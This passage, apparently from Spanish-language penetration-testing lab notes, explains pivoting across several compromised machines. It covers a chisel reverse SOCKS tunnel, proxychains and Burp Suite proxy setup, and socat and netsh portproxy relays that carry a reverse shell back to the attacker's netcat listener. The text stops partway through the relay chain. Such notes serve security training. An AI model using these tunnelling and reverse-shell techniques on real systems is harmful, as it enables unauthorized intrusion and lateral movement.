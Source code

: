 ```bash
./chisel client ip_maquina_victima_5:puerto_maquina_victima_5 R:puerto:socks
```


Una vez creada la conexión del túnel, lo que tenemos que hacer ahora es modificar el archivo `/etc/proxychains`, donde arriba del último proxy configurado tendrás que colocar lo siguiente, pero especificando el puerto donde está el proxy:

```bash
socks5 127.0.0.1 puerto
```



Si quieres configurar un proxy en Burp Suite, lo primero que tienes que hacer es dirigirte a proxy y luego seleccionar la opción de proxy settings.

![[Pasted image 20240504220014.png]]



Dentro de este apartado, nos vamos a Network y luego a Connections, y en la parte de Socks Proxy indicamos el puerto y la dirección, además de seleccionar la opción de "Use SOCKS proxy" donde hemos configurado nuestro proxy.

![[Pasted image 20240504224602.png]]


Ahora, desde nuestro navegador, indicamos que queremos usar el proxy de nuestro Burp Suite, y ya estaríamos interactuando con el proxy.
![[Pasted image 20240504222936.png]]



Si queremos enviar una reverse shell desde la máquina víctima 6 a la máquina atacante, lo primero que tendremos que hacer es desde nuestra máquina atacante ponernos en escucha por un puerto con ayuda de netcat. Luego, compartimos el socat con SCP a nuestra máquina víctima 5. Una vez con este en nuestra máquina, ejecutamos el siguiente comando, en donde mandaremos todo el tráfico al nodo más cercano, en este caso, a la máquina 4 por un puerto especificado. El comando sería el siguiente:

```bash
socat TCP-LISTEN:puerto_escucha,fork TCP:ip_maquina_victima_4:puerto_maquina_victima_4
```


Ahora, ingresamos a la máquina víctima 4 y en esta ejecutamos el siguiente comando, el cual va a mandar el tráfico recibido desde el puerto especificado en el anterior comando a la máquina víctima 2 por un puerto especificado. El comando es el siguiente:


```
netsh interface portproxy add v4tov4 listenport=puerto_en_escucha listenaddress=0.0.0.0 connectport=puerto_maquina_victima_2 connectaddress=ip_maquina_victima_2
```



Ingresamos a la máquina víctima 2 y en esta ejecutamos el siguiente comando de socat, en el cual vamos a indicar como puerto en escucha el puerto al que mandamos todo el tráfico en el anterior comando, y este tráfico se lo vamos a mandar a la máquina víctima 1:
